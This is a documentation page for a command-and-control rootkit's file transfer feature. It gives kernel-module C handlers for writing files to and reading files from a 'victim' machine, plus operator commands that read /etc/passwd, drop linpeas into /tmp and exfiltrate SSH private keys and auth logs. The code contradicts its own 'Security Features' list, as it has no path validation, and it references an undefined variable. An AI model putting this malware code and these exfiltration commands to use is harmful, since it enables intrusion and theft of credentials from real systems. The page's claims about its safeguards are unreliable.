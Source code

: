 ```yaml
---
title: "File Transfer"
description: "Upload and download files between C2 server and victim system"
icon: "download"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 511
---
```


# File Transfer

Transfer files between the C2 server and victim system using direct content transmission.

## Upload Files

Upload files from C2 server to victim system.

### Usage
```bash
# Upload to specific path
upload Client-1 ./config.txt /etc/myapp/config.txt

# Upload to current directory  
upload Client-1 ./script.sh
```

### Implementation
```c
static int handle_upload(const char *data)
{
    char *filename, *file_content, *separator;
    struct file *file;
    loff_t pos = 0;
    
    // Parse filename:content format
    separator = strchr(data, ':');
    *separator = '\0';
    filename = data;
    file_content = separator + 1;
    
    // Create and write file
    file = filp_open(filename, O_WRONLY | O_CREAT | O_TRUNC, 0644);
    kernel_write(file, file_content, content_length, &pos);
    filp_close(file, NULL);
    
    return send_success("File uploaded successfully");
}
```

## Download Files

Download files from victim system to C2 server.

### Usage
```bash
# Download to specific path
download Client-1 /etc/passwd ./victim_passwd

# Download to current directory
download Client-1 /etc/hostname
```

### Implementation
```c
static int handle_download(const char *data)
{
    struct file *file;
    loff_t file_size, pos = 0;
    char *file_content;
    
    // Open and read file
    file = filp_open(data, O_RDONLY, 0);
    file_size = i_size_read(file_inode(file));
    
    file_content = vmalloc(file_size + 1);
    kernel_read(file, file_content, file_size, &pos);
    filp_close(file, NULL);
    
    return send_result(file_content);
}
```

## WebUI Interface

### Upload Panel
- **File Selection**: Choose local file to upload
- **Remote Path**: Specify destination path on victim
- **Progress**: Real-time upload progress indicator

### Download Panel  
- **File Browser**: Navigate victim filesystem
- **Quick Downloads**: Common system files (passwd, hosts, etc.)
- **Batch Download**: Select multiple files

## Security Features

- **Path Validation**: Prevents directory traversal attacks
- **File Size Limits**: 10MB maximum transfer size
- **Permission Control**: Files created with safe permissions (0644)
- **Error Handling**: Graceful failure on permission/space issues

## Common Examples

```bash
# System reconnaissance
download Client-1 /etc/passwd
download Client-1 /etc/hosts
download Client-1 /proc/version

# Deploy tools
upload Client-1 ./linpeas.sh /tmp/enum.sh
exec Client-1 chmod +x /tmp/enum.sh

# Exfiltrate data
download Client-1 /home/user/.ssh/id_rsa
download Client-1 /var/log/auth.log
```
